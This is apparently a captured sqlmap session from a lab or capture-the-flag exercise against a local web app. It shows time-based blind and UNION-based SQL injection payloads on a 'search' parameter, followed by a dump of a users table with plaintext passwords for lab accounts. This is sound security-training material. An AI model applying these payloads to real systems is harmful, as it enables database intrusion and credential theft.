 ```bash
Parameter: search (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: search=FUZZME' AND (SELECT 7756 FROM (SELECT(SLEEP(5)))jGTb) AND 'NRma'='NRma

    Type: UNION query
    Title: Generic UNION query (NULL) - 6 columns
    Payload: search=FUZZME' UNION ALL SELECT NULL,CONCAT(0x7171717171,0x4559644b454269584875796c53566c54
75426652586873526a57625242514e4c544d54624a754273,0x716b7a7171),NULL,NULL,NULL,NULL-- -
---
[19:32:52] [INFO] testing MySQL
[19:32:52] [INFO] confirming MySQL
[19:32:53] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Debian 10 (buster)                                                   web application technology: Apache 2.4.38
back-end DBMS: MySQL >= 5.0.0 (MariaDB fork)                                                            [19:32:53] [INFO] fetching database names
available databases [3]:
[*] information_schema
[*] Staff
[*] users

[19:32:53] [INFO] fetching tables for database: 'users'
[19:32:53] [INFO] fetching columns for table 'UserDetails' in database 'users'
[19:32:53] [INFO] fetching entries for table 'UserDetails' in database 'users'
Database: users
Table: UserDetails
[17 entries]
+----+------------+---------------+---------------------+-----------+-----------+
| id | lastname   | password      | reg_date            | username  | firstname |
+----+------------+---------------+---------------------+-----------+-----------+
| 1  | Moe        | 3kfs86sfd     | 2019-12-29 16:58:26 | marym     | Mary      |
| 2  | Dooley     | 468sfdfsd2    | 2019-12-29 16:58:26 | julied    | Julie     |
| 3  | Flintstone | 4sfd87sfd1    | 2019-12-29 16:58:26 | fredf     | Fred      |
| 4  | Rubble     | RocksOff      | 2019-12-29 16:58:26 | barneyr   | Barney    |
| 5  | Cat        | TC&TheBoyz    | 2019-12-29 16:58:26 | tomc      | Tom       |
| 6  | Mouse      | B8m#48sd      | 2019-12-29 16:58:26 | jerrym    | Jerry     |
| 7  | Flintstone | Pebbles       | 2019-12-29 16:58:26 | wilmaf    | Wilma     |
| 8  | Rubble     | BamBam01      | 2019-12-29 16:58:26 | bettyr    | Betty     |
| 9  | Bing       | UrAG0D!       | 2019-12-29 16:58:26 | chandlerb | Chandler  |
| 10 | Tribbiani  | Passw0rd      | 2019-12-29 16:58:26 | joeyt     | Joey      |
| 11 | Green      | yN72#dsd      | 2019-12-29 16:58:26 | rachelg   | Rachel    |
| 12 | Geller     | ILoveRachel   | 2019-12-29 16:58:26 | rossg     | Ross      |
| 13 | Geller     | 3248dsds7s    | 2019-12-29 16:58:26 | monicag   | Monica    |
| 14 | Buffay     | smellycats    | 2019-12-29 16:58:26 | phoebeb   | Phoebe    |
| 15 | McScoots   | YR3BVxxxw87   | 2019-12-29 16:58:26 | scoots    | Scooter   |
| 16 | Trump      | Ilovepeepee   | 2019-12-29 16:58:26 | janitor   | Donald    |
| 17 | Morrison   | Hawaii-Five-0 | 2019-12-29 16:58:28 | janitor2  | Scott     |
+----+------------+---------------+---------------------+-----------+-----------+

[19:32:54] [INFO] table 'users.UserDetails' dumped to CSV file '/home/vagrant/.local/share/sqlmap/output/192.168.160.209/dump/users/UserDetails.csv'
[19:32:54] [INFO] fetched data logged to text files under '/home/vagrant/.local/share/sqlmap/output/192.168.160.209'
[19:32:54] [WARNING] your sqlmap version is outdated

[*] ending @ 19:32:54 /2023-11-09/
```
